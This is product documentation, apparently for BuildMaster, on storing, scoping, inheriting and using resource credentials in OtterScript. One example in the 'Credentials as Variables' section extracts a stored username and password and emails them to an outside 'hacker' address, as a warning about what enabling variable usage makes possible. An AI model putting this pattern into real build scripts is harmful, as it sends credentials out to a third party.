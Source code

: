 ```yaml
---
title: Resource Credentials
keywords: buildmaster, executions, resource-credentials
show-headings-in-nav: true
sequence: 200
---
```


Resource credentials store information that is used to provide access to a particular resource (such as a name and password to a specific service), and may contain secrets (i.e. encrypted fields that are visible only to privileged users, like passwords or API keys).

There are a few types that are built in to BuildMaster:

|Type|	Properties	|Description|
|-|-|-|
|UsernamePassword	|UserName Password|	A general-purpose credential with a username and password, such as a Windows domain account. Several operations can use this to request a basic username/password. |
|PrivateKey	| UserName PublicKey PrivateKey* Passphrase*	| This is primarily used by the SSH-based agent when key-based authentication is used. |
|InedoProduct	| Host ApiKey* |	Represents a connection to instance of another Inedo product (BuildMaster, ProGet, or Otter) |

**\*** *indicates an encrypted/sensitive field*

Resource credentials are implemented through an [extensible feature](/support/documentation/buildmaster/administration/extensions), and several extensions ([JIRA](/den/buildmaster/jira),[VSTS](/den/inedox/tfs), [GitHub](/den/inedox/github), etc.) will add types that are necessary for the extension's components.

## Creating and Editing Credentials {#creating-editing-credentials data-title="Creating and Editing Credentials"}

You can create a resource credential from the Resource Credentials link on the Administration page. In addition to the fields specific to the resource credential type, all resource credentials have:

*   **Name** - a name of up to 50 characters that will be used to reference the resource credential; while you can change the name later, any operation or component that relied on that name will no longer be able to find it
*   **Environment** - optional; restricts what environments the credential may be used in, and which users have access to it
*   **Variable Usage** - optional; you can allow the `$CredentialProperty` variable function to extract secure properties
*   **Environment Restriction** - optional; when set, a runtime error will occur when this credential is used in a deployment plan that is not running in the same environment

When editing credentials, the encrypted fields will be displayed as empty password textboxes, and entering a value in the textbox will change it. You may click the "view hidden fields" button to show these values if you have the appropriate permissions.

## Limiting Credential Access {#limiting-access data-title="Limiting Credential Access"}

You may want to permit or restrict certain users from accessing certain credentials, such as allowing Developers to manage credentials in the Integration and Testing environments. This is done by associating credentials with an environment, and then creating the appropriate [access controls](/docs/buildmaster/administration/users-and-security) scoped to that environment.

There are two task attributes you can use to control this access:

*   **Manage Credentials** will allow you to view, delete, and edit credentials, but not view existing encrypted/sensitive fields
*   **View Passwords** will allow you to view encrypted/sensitive fields on a credential

On the manage credentials page, users will only see the credentials they have permission to manage, and will only be able to create credentials in permitted environments.

## Credentials and OtterScript {#credentials-and-otterscript data-title="Credentials and OtterScript"}

Any operation that uses passwords, API keys, or sensitive information will give you the option to use a resource credential instead of needing to put those values directly in your OtterScript.

For example, consider the [`Ensure-AppPool`](/docs/buildmaster/reference/operations/iis/ensure-app-pool) operation:

![Ensure apppool operation](/resources/documentation/buildmaster/6/ensure-app-pool.png)

If you select a resource credential for the operation's, the OtterScript runtime will automatically set the value of the operations User Name and Password properties from the selected credential. If you specify a value for either of those properties, they will be used instead of the credential's value.

::: {.attention .technical}
If the credential has "restricted to environment use" configured, then this will only be permitted if the deployment plan is running in the same environment. This can be frustrating and unintuitive to your users, so be careful when using it.
:::

## Credentials as Variables {#credentials-as-variables data-title="Credentials as Variables"}

By default, there is no way to access the value of an encrypted/sensitive field on a credential from within OtterScript. However, at times it may be necessary, such as if you want to pass a username/password to a script or command-line utility.

You can enable variable usage on a credential-by-credential basis. When configured, you can use the [$CredentialProperty](/docs/buildmaster/reference/functions/credentials/credentialproperty) variable function to extract any property value. For example:

```
set $HDarsUser = $CredentialProperty(UsernamePassword::HDarsUser, UserName);
set $HDarsPassword = $CredentialProperty(UsernamePassword::HDarsUser, Password);
PSExec >> Register-HDars $HdarsUser $HdarsPassword >>;        

Send-Email
(
    To: hacker45@agam.ru,
    Subject: Username is $HdarsUser and password is $HdarsPassword
);
```

Instead, you should write a custom operation that can securely handle the credentials.

## Cascading Credentials {#cascading data-title="Cascading Credentials"}

As of BuildMaster v6.1.10, resource credentials may be specified at the application or application group scope in addition to environment. Certain implementations may also specify a resource credential to inherit from, overriding specific properties at the application or group level. 

For example, an individual application's resource credentials could specify a system-level parent that has username/password information stored for a full system, and then override just the "repository URL". This way, you can specify the secret value in one location (with elevated privileges required to access it), and connect to different repositories consistently throughout all applications.

The following rules are enforced by BuildMaster when creating or resolving cascading credentials:

{.docs}
 - for security reasons, the environment of the parent credential must match the inheritor's exactly, or the parent environment must not be specified (indicating that it applies to all environments)
 - when resolving a resource credential at execution time, candidates by name are selected in order of matching properties:
    - application + environment
    - application
    - application group
    - ancestor application-group
    - environment
    - system